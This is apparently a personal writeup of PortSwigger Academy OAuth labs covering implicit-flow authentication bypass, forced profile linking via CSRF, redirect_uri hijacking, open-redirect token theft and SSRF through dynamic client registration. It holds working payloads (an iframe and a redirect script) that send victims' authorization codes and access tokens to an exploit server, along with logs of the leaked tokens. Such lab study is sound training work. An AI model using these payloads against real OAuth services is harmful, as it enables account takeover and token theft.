

# Intro
This post/writeup is all about the JWT Token Vulnerabilities.

I'll be using primarily [Portswigger Web Academy](https://portswigger.net/web-security/oauth) Labs, but i do intent do throw other labs and writeups here as well.

To learn more on the topic, please visit the article linked above at Portswigger's or this ones about [grant types](https://portswigger.net/web-security/oauth/grant-types)

There are two grant types which are:
- Authorization code grant type, which consists of 
  - Authorization Request (Client App => Browser => OAuth Service API)
  - User login and consent which is sent from OAuth Service API to browser. This may be single click if Session with OAuth Provider is still valid, however consent will always be present.
  - Authorization code grant will be sent from OAuth Service API to the Client App, and browser will be redirected to `/callback`
  - SERVER2SERVER communcation continues between Client App and OAuth Service API. Authorization code will be exchanged for **Access Token** (POST Request to `/token` endpoint)
  - Access token is (or not) granted from OAuth Service to Client App
  - Client API fetches the user data that user has consented to.
  - User is logged in.
- Implicit grant type
  - Is the same thing, just there is no SERVER2SERVER communication and this grant type is much less secure.

Make sure to check the [grant types](https://portswigger.net/web-security/oauth/grant-types) article at Portswigger's.

## TOC

# Authentication bypass via OAuth implicit flow
> This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the client application makes it possible for an attacker to log in to other users' accounts without knowing their password.
> 
> To solve the lab, log in to Carlos's account. His email address is `carlos@carlos-montoya.net`.
> 
> You can log in with your own social media account using the following credentials: `wiener:peter`.

First let's login using provided credentials `wiener:peter`
  

Now several requests should've been sent:

  

What happens if we change Email in `/authenticate` using Burp Repeater.

  

We'll get redirected and lab would've been solved. Just like that, we've bypassed authentication for `carlos@carlos-montoya.net`.

Lab has been solved
  


# Forced OAuth profile linking
> This lab gives you the option to attach a social media profile to your account so that you can log in via OAuth instead of using the normal username and password. Due to the insecure implementation of the OAuth flow by the client application, an attacker can manipulate this functionality to obtain access to other users' accounts.
> 
> To solve the lab, use a CSRF attack to attach your own social media profile to the admin user's account on the blog website, then access the admin panel and delete Carlos.
> 
> The admin user will open anything you send from the exploit server and they always have an active session on the blog website.
> 
> You can log in to your own accounts using the following credentials:
> 
> - Blog website account: `wiener:peter`
> - Social media profile: `peter.wiener:hotdog`

If we login using `wiener:peter` and we'll see that we have `Attach a social profile` option.

  

If we choose that and enter `peter.wiener:hotdog` credentials we'll get to request from the OAuth Server to confirm the scope.

  

If we confirm the scope, we'll see the message that account has been linked with social media account.

  

If we now log out ...

  

And go into `My Account > Log in using Social Media Account` we'll get logged in instantly.

  

Exploit. PS, there is no CSRF tokens! Delivery via button `Deliver exploit to victim` where victim will open everything.
```
</img>
```

  

When victim opens the link above, its social account gets linked with `wiener`.

All we have to do is `login using social media account` and we should see `Admin Panel` where we can delete `carlos` and complete the lab.

  

As already mentioned in the lab description itself. The reason why, we were admin account got mapped with our user was lack of using `state` parameter in the auth request.

# OAuth account hijacking via redirect_uri
> This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.
> 
> To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.
> 
> The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.
> 
> You can log in with your own social media account using the following credentials: `wiener:peter`.

When we click on `My Account`, we'll automatically get redirected to Sign in

  

Let's signin using provided credentials `wiener:peter`. Confirm the scope and we should be logged in afterwards.

  

If i log out and change the `redirect_uri` with the one with `exploit-...` then the WebApp will redirect me there and i'll leak the token

  

Check the Access Logs

```
87.181.171.142  2023-03-10 18:05:22 +0000 "GET /oauth-callback?code=lH6JjG4-zM9WU7H71rnTcoO21Y_jDGE-PYHIwHEDDB2 HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36"
```

  

Deliver the payload to victim

```html
<iframe src="https://oauth-0a370096040dd78fc2a9109f024800c8.oauth-server.net/auth?client_id=t01m58r8e75mz8c5brko5&redirect_uri=https://exploit-0a0600a904e5d707c20911290126001b.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

If we now go and check access logs, we should find few entries including the code that got leaked.
```
10.0.4.215      2023-03-10 18:47:20 +0000 "GET /exploit/ HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"

10.0.4.215      2023-03-10 18:47:21 +0000 "GET /?code=fgMsBD1PAaJJ30MKNZddEr6fKYTt2Sombr-haM1Ocss HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"

10.0.4.215      2023-03-10 18:47:21 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"

```

Now log out, log in and intercept at `oauth-callback` and exchange the `access token`.

  

Admin panel should now be seen. We can delete `carlos` and finish the lab.

  

More secure authorization servers will require a `redirect_uri` parameter to be sent when exchanging the `authorization code` as well. The server can then check whether this matches the one it received in the initial authorization request and reject the exchange if not. As this happens in server-to-server requests via a secure back-channel, the attacker is not able to control this second redirect_uri parameter. You can read more about that in at [portswigger's](https://portswigger.net/web-security/oauth).

# Stealing OAuth access tokens via an open redirect
> This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.
> 
> To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.
> 
> **Note**
> 
> !!! You cannot access the admin's API key by simply logging in to their account on the client application
> 
> The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.
> 
> You can log in via your own social media account using the following credentials: `wiener:peter`

In order to find a open redirect we obviously first need to search for it. When going into blog posts and click on `Next Post`, following request will fire

```
/post/next?path=/post?postId=2
```

If we exchange the `/path`, we'll get redirected there.

```
https://0a040096041a20bac0f1db9d003e00c5.web-security-academy.net/auth?client_id=uyi3jd4v3nvvxrtr6ta3r&redirect_uri=https://0a040096041a20bac0f1db9d003e00c5.web-security-academy.net/post/next?path=https://exploit-0a2b007004ba20c6c013da57015e0004.exploit-server.net/&response_type=token&nonce=-1323844043&scope=openid%20profile%20email
```

What's now a bit tricky is to server a payload which will respond accordingly. We now need to create an exploit that first forces the victim to visit oue malicious URL and then executes the script we just tested to steal their access token.

```html
<script>
    if (!document.location.hash) {
        window.location = "https://oauth-0aa10074040f209dc07dd97c029700e0.oauth-server.net/auth?client_id=uyi3jd4v3nvvxrtr6ta3r&redirect_uri=https://0a040096041a20bac0f1db9d003e00c5.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a2b007004ba20c6c013da57015e0004.exploit-server.net/exploit&response_type=token&nonce=-1343228737&scope=openid%20profile%20email"
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

Access log should be found:
```
10.0.4.32       2023-03-10 20:02:04 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"

10.0.4.32       2023-03-10 20:02:04 +0000 "GET /?access_token=CnvFuSgC49GVghnWkWEOIHoUbTLnz7qGuuDBDsfaAf_&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"

10.0.4.32       2023-03-10 20:02:04 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"

```

We can request session token

  

To find the apikey, we'll need to check the `/me` endpoint.

  

This Lab is very similar to previous one, however we had to find a way to redirect `access token` using `directory traversal` vulnerability on open redirect.

# SSRF via OpenID dynamic client registration
> This lab allows client applications to dynamically register themselves with the OAuth service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.
> 
> To solve the lab, craft an SSRF attack to access http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/ and steal the secret access key for the OAuth provider's cloud environment.
> 
> You can log in to your own account using the following credentials: `wiener:peter`
> 
> **Note**
> 
> !!! To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Login the provided credentials and check the openid configuration

```
https://oauth-0a3400b503aa5e44c472180502db00f0.oauth-server.net/.well-known/openid-configuration

{"authorization_endpoint":"https://oauth-0a3400b503aa5e44c472180502db00f0.oauth-server.net/auth","claims_parameter_supported":false,"claims_supported":["sub","name","email","email_verified","sid","auth_time","iss"],"code_challenge_methods_supported":["S256"],"end_session_endpoint":"https://oauth-0a3400b503aa5e44c472180502db00f0.oauth-server.net/session/end","grant_types_supported":["authorization_code","refresh_token"],"id_token_signing_alg_values_supported":["HS256","ES256","EdDSA","PS256","RS256"],"issuer":"https://oauth-0a3400b503aa5e44c472180502db00f0.oauth-server.net","jwks_uri":"https://oauth-0a3400b503aa5e44c472180502db00f0.oauth-server.net/jwks","registration_endpoint":"https://oauth-0a3400b503aa5e44c472180502db00f0.oauth-server.net/reg","response_modes_supported":["form_post","fragment","query"],"response_types_supported":["code"],"scopes_supported":["openid","offline_access","profile","email"],"subject_types_supported":["public"],"token_endpoint_auth_methods_supported":["none","client_secret_basic","client_secret_jwt","client_secret_post","private_key_jwt"],"token_endpoint_auth_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"token_endpoint":"https://oauth-0a3400b503aa5e44c472180502db00f0.oauth-server.net/token","request_object_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"request_parameter_supported":false,"request_uri_parameter_supported":true,"require_request_uri_registration":true,"userinfo_endpoint":"https://oauth-0a3400b503aa5e44c472180502db00f0.oauth-server.net/me","userinfo_signing_alg_values_supported":["HS256","ES256","EdDSA","PS256","RS256"],"introspection_endpoint":"https://oauth-0a3400b503aa5e44c472180502db00f0.oauth-server.net/token/introspection","introspection_endpoint_auth_methods_supported":["none","client_secret_basic","client_secret_jwt","client_secret_post","private_key_jwt"],"introspection_endpoint_auth_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"revocation_endpoint":"https://oauth-0a3400b503aa5e44c472180502db00f0.oauth-server.net/token/revocation","revocation_endpoint_auth_methods_supported":["none","client_secret_basic","client_secret_jwt","client_secret_post","private_key_jwt"],"revocation_endpoint_auth_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"claim_types_supported":["normal"]}
```

OpenID Client registration can be found at `/reg` endpoint.

  

Client app has been succesfully created!

During the Authorize phase we can specify client id and URL

```
GET /auth?client_id=pzqqqsgjugy5wv6omxhmy&redirect_uri=https://0a790040031c5eb2c4cc1cb3006d0067.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/2
```


# Stealing OAuth access tokens via a proxy page
> This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.
> 
> To solve the lab, identify a secondary vulnerability in the client application and use this as a proxy to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.
> 
> The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.
> 
> You can log in via your own social media account using the following credentials: wiener:peter.
> 
> **Note**
> 
> !!! As the victim uses Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test your exploit.

... tbd